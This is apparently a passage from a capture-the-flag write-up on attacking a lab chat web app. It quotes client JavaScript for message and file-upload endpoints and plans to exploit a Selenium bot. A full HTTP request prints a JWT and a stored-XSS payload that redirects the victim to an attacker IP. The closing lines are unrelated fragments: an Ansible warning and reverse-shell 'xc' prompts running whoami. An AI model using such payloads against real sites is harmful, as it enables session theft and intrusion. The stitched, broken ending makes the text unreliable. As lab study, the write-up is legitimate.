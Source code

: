 The only interesting message was this:

```
The service checkup script that you created is not working anymore with the Selenium grid after the update. We create a temporary workaround for that but can you please come and fix the script?
```

For the time being, this may be irrelevant until we check the other endpoints.

```js
fetch("".concat(_config_json__WEBPACK_IMPORTED_MODULE_1__.BACKEND_URL, "/api/chats/").concat(currentChat, "/add"), {
                method: 'POST',
                headers: {
                  'Accept': 'application/json',
                  'Content-Type': 'application/json',
                  'token': localStorage.getItem('token')
                },
```

```js
var uploadFile = e => {
            var formData = new FormData();
            formData.append('uploadedFile', e.target.files[0]);
            fetch("".concat(_config_json__WEBPACK_IMPORTED_MODULE_1__.BACKEND_URL, "/api/").concat(currentChat, "/upload"), {
              method: 'POST',
              headers: {
                'token': localStorage.getItem('token')
              },
              body: formData
            }).
```

And now we have a way to interact with users by sending them files and messages!

Now, let’s get back to the message that we got earlier, where the users were talking about a Selenium script. Selenium allows you to write test scripts or bots that interact with a web application in a similar way to how a user would interact with the application. We can assume now that we will have to trick the bot into downloading our files or interacting with our messages!

Here’s an example on how we can use both `/add` and `/upload` API to download/add files/messages:

```http
POST /api/chats/admin/add HTTP/1.1
Host: 10.129.255.120:9000
Cache-Control: max-age=0
token:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImRldmVsb3BlciIsImlhdCI6MTY3MDA2MjEwMywiZXhwIjoxNjcwMDgzNzAzfQ.G1M-pWAsNnKSFxSoljbBd_lwZVGurgn9_IApQppnGgs
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 62

{"message":"<script>document.location="http://10.10.10.10/jaja"</script>"}
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname